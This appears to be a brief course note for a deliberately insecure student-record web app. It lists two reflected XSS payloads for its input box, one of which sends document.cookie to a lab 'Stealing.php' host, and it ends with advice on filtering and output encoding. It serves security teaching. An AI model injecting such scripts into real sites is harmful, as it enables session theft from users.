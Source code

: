 InsecureWebApplicationProject ->V 1.0.0

Insert new student

-------input these messages to the textbox (adi) ----------

    <script>alert(document.cookie);</script>
    <script>window.location="http://192.168.56.103/SecureSoftwareDevelopment/Lecture7/1XSS/2ReflectedXSS/Stealing.php?cookie="+document.cookie; </script>


apply filtering and output encoding in set member functions (code reuse)